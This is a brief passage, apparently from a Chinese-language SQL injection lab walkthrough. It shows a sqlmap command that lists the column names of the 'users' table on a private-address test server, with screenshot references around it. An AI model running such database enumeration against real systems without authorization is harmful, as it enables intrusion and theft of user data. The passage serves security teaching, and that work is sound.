 ![sqlmap_second](image/sqlmap_second.jpg)

从以上表中选出表名 'users'，查找 'users' 字段名：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1' --columns -T users
```

![sqlmap_third](image/sqlmap_third.jpg)
